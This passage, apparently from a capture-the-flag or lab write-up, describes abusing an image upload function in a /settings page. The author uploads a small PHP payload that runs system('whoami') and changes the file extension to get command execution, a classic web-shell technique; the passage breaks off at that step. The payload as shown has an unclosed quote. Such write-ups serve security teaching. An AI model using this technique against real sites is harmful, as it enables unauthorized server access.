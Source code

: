 > Enumerating this page, the first suspicious point it the upload function in /settings

![](./IMG/46.png)

> Then I tried to upload other image
> And using the following payload 

```
<?php

system('whoami)

?>
```
> Modify the file extension 
